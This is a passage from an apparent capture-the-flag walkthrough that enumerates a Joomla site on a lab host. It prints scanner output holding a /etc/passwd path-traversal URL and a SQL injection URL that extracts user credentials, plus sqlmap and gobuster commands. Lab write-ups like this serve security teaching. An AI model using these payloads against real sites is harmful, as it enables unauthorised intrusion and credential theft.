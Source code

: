 		Results:
		```
		[+] Plugin: /joomla/?1.5.10-x 
		[+] Plugin: /joomla/?1.5.11-x-http_ref 
		[+] Plugin: /joomla/?1.5.11-x-php-s3lf 
		[+] Plugin: /joomla/?1.5.3-path-disclose 
		[+] Plugin: /joomla/?1.5.3-spam 
		[+] Plugin: /joomla/?1.5.8-x 
		[+] Plugin: /joomla/?1.5.9-x 
		[+] Plugin: /joomla/?j1012-fixate-session 
		[+] Plugin: /joomla/administrator/ 
		[+] Plugin: /joomla/administrator/components/ 
		[+] Plugin: /joomla/administrator/components/com_admin/ 
		[+] Plugin: /joomla/administrator/index.php?option=com_djartgallery&task=editItem&cid[]=1'+and+1=1+--+ 
		[+] Plugin: /joomla/administrator/index.php?option=com_searchlog&act=log 
		[+] Plugin: /joomla/components/com_ajax/ 
		[+] Plugin: /joomla/components/com_banners/ 
		[+] Plugin: /joomla/components/com_contact/ 
		[+] Page: /joomla/index.php?option=com_contact
		[+] Plugin: /joomla/components/com_content/ 
		[+] Page: /joomla/index.php?option=com_content
		[+] Plugin: /joomla/components/com_contenthistory/ 
		[+] Plugin: /joomla/components/com_fields/ 
		[+] Plugin: /joomla/components/com_finder/ 
		[+] Page: /joomla/index.php?option=com_finder
		[+] Plugin: /joomla/components/com_mailto/ 
		[+] Plugin: /joomla/components/com_media/ 
		[+] Plugin: /joomla/components/com_newsfeeds/ 
		[+] Page: /joomla/index.php?option=com_newsfeeds
		[+] Plugin: /joomla/components/com_search/ 
		[+] Page: /joomla/index.php?option=com_search
		[+] Plugin: /joomla/components/com_users/ 
		[+] Page: /joomla/index.php?option=com_users
		[+] Plugin: /joomla/components/com_wrapper/ 
		[+] Page: /joomla/index.php?option=com_wrapper
		[+] Plugin: /joomla/index.php?file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&jat3action=gzip&amp;type=css&v=1 
		[+] Vulnerability: Potential LFI
		[+] Plugin: /joomla/index.php?option=com_newsfeeds&view=categories&feedid=-1%20union%20select%201,concat%28username,char%2858%29,password%29,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20jos_users-- 
		[+] Page: /joomla/index.php?option=com_newsfeeds&view=categories&feedid=-1%20union%20select%201,concat%28username,char%2858%29,password%29,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20jos
		[*] Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
		```
	4. Attempt to `sqlmap` the `feedid` parameter of  `http://10.10.30.252/joomla/index.php?option=com_newsfeeds&view=categories&feedid=a`: `sqlmap -u '10.10.30.252/joomla/index.php?option=com_newsfeeds&view=categories&feedid=a' -p feedid` fails.
	5. Bruteforce `http://10.10.30.252/joomla` with gobuster: `gobuster dir -u http://10.10.30.252/joomla -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` finds `/joomla/_files` which contains `VjJodmNITnBaU0JrWVdsemVRbz0K`.
	6. Lets also try the above with dirbuster for recursion. Use url of `http://10.10.30.252:80`, about 100 threads, `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` wordlist, and set "Dir to start with" to `/joomla`. Stopping because this would take too long.
	7. Bruteforce `http://10.10.30.252/joomla/_files` with gobuster: `gobuster dir -u http://10.10.30.252/joomla/_files -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` and `gobuster dir -u http://10.10.30.252/joomla/_files -t 100 -w /usr/share/wordlists/dirb/common.txt`. Both find nothing.
	8. Try bruteforce `/joomla/` with `dirb/common` list: `gobuster dir -u http://10.10.30.252/joomla/ -t 100 -w /usr/share/wordlists/dirb/common.txt` finds `/joomla/_archive` with text `Mnope, nothin to see.` and `/joomla/_test/` with `sar2html`